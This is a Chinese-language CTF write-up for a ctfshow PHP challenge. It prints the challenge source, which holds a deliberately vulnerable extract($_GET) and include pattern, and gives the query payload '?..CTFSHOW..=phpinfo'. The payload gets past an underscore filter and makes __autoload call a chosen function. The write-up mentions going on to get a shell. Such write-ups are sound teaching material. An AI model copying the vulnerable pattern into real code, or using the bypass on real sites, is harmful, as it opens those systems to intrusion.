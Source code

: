 # 知识点
### __autoload
[https://www.php.cn/php-weizijiaocheng-426838.html](https://www.php.cn/php-weizijiaocheng-426838.html)<br />这个题一点点小坑__autoload()函数不是类里面的<br />__autoload — 尝试加载未定义的类<br />最后构造?..CTFSHOW..=phpinfo就可以看到phpinfo信息啦<br />原因是..CTFSHOW..解析变量成__CTFSHOW__然后进行了变量覆盖，因为CTFSHOW是类就会使用<br />__autoload()函数方法，去加载，因为等于phpinfo就会去加载phpinfo<br />接下来就去getshell啦
# 思路
```python
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 07:12:57

*/
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE && strrpos($ctf,"log")===FALSE){
    include($ctf);
}
```
```python
?..CTFSHOW..=phpinfo
```
![image.png](./images/20231017_2350067052.png)

